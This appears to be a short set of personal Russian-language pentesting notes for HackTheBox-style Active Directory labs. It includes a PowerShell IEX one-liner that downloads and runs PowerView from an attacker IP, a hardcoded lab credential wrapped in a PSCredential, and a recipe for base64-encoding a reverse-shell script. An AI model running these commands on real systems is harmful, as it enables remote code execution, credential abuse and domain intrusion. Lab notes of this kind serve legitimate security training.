 # POWER

https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/

Запустить повер виев

. .\PowerView.ps1

загрузиь повервью в память

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15/PowerView.ps1')

Поскольку у нас нет оболочки для JDgodd, мы можем использовать PowerShell.
 System.Management.Automation.PSCredential для хранения учетных данных в нашей текущей оболочке.

 $SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd',
$SecPassword)

# Кодирование скриптов POwerShell

cat rev.ps1 |iconv -t UTF-16LE | base64 -w 0 (вывод)

powershell -enc (вывод)

# Восстаовление корзины

Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -Filter {ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *
